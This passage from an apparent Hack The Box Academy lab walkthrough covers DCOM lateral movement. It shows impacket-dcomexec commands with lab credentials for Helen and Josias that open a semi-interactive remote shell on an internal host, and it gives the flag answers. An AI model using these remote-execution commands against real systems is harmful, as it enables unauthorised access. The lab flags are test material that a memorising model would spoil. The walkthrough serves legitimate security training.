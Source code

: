 ```
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-xqphib3snx]─[~]
└──╼ [★]$ impacket-dcomexec -object MMC20 INLANEFREIGHT/Helen:'RedRiot88'@172.20.0.52

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

Subsequently, students can grab the flag located in the `C:\Users\helen\Documents\` directory:

Code: shell

```shell
type C:\Users\helen\Documents\dcom.txt
```

```
C:\>type C:\Users\helen\Documents\dcom.txt
```

Answer: `New_ways_of_getting_access`

# Distributed Component Object Model (DCOM)

## Question 2

### "Use Josias's credentials with Impacket to connect to SRV02 and read the flag located at C:\\Users\\josias\\Documents\\dcom.txt"

Students will reuse the previously spawned target and the previously established tunnel to the internal network with Ligolo-ng. They will proceed to use `impacket-dcomexec` with the credentials `Josias:Jonny25`:

Code: shell

```shell
impacket-dcomexec -object MMC20 INLANEFREIGHT/Josias:'Jonny25'@172.20.0.52
```

```
┌─[eu-academy-5]─[10.10.14.228]─[htb-ac-8414@htb-xqphib3snx]─[~]
└──╼ [★]$ impacket-dcomexec -object MMC20 INLANEFREIGHT/Josias:'Jonny25'@172.20.0.52

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
